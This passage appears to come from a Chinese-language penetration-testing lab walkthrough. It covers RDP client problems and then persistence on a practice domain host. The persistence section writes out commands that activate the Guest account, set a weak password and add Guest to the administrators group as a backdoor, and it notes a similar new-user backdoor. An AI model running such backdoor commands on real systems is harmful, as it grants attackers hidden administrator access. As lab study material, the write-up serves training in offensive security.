 也确认了上面对Win7的配置没有出错

![image-20220814225454974](./st1.assets/image-20220814225454974.png)



网上搜了一下，发现 rdesktop 不适用于 WinXP/2003+ (不含XP/2003)

![image-20220814225701766](./st1.assets/image-20220814225701766.png)



试一下用Win10的RD Client，成功连接，说明确实是 rdsektop 的问题

> 当然，也可以用Linux上的Remmina

![image-20220814225917789](./st1.assets/image-20220814225917789.png)



## 权限维持

### Guest后门

> 注：应加上域标签，如果完全复制此种方式，只是添加到STU1域

```bash
shell net user									 # 查看本机用户
```

![image-20220814232334204](./st1.assets/image-20220814232334204.png)

```bash
net user guest /active:yes						 # 激活guest
```

```bash
shell net user guest Aa123456					 # 给Guest用户设置密码
```

```bash
shell net localgroup administrators guest /add    # 将guest加入到管理员中
```

### 添加新用户后门

> 注：应加上域标签，如果按照上面Guest后门的方式，只是添加到STU1域里

![image-20220815002522071](./st1.assets/image-20220815002522071.png)

![image-20220815002532623](./st1.assets/image-20220815002532623.png)

然后用RD Client连接即可

### 尴尬之处

两边登录都会互踢
